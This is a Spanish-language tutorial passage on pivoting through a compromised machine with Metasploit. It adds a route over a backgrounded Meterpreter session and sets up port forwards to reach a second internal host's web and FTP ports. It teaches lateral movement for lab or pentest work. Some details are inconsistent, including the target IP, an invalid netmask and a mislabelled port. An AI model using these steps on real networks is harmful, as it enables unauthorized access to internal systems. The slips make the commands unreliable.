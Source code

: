 ```
meterpreter> ipconfig
```

Veo cuál es la IP que quiero acceder, la que no llego desde kali, en este caso la 10.10.10.6. Por tanto, debo redireccionar el tráfico de la IP 10 a mi máquina atacante, desde la conexión que tengo en máquina 1.

En meterpreter pulsar control+z para dejar la sesión en background. Y ahora en metasploit:

```
msf> route add <IPmáquina2> <maquina2-mascarasubred> <numeroSesionEnBackgound>
```

```
msf> route add 10.10.10.6 255.255.255.255.0 1
```

Así todo el tráfico de la máquina 2 pasará a la atacante.

Y ahora hay que hacer el port forwarding. 

Accedemos a la sesión de Metasploit. Vemos qué sesiones hay abiertas:

```
msf> sessions -l
```

Si está en la 1:

```
msf> sessions -i 1
```

Ahora creamos el portforward:

```
meterpreter> portfwd add -l <puertoAtacante> -p <puertoMaquina2> -r <IPmaquina2>
```

Ejemplo:

```
meterpreter> portfwd add -l 5000 -p 80 -r 10.10.10.5
```

En este caso, en el puerto 5000 de la atacante, tendré acceso al puerto 80 de la objetivo (máquina 2).

Ahora si desde kali vamos al navegador y ponemos 127.0.0.1:5000 podemos acceder al puerto 80 de la atacante.

Y si ahora quermos otro puerto, ejemplo:

```
meterpreter> portfwd add -l 4000 -p 21 -r 10.10.10.5
```

Y ahora desde kali en una terminal:

```
ftp 127.0.0.1 -p 4000
```

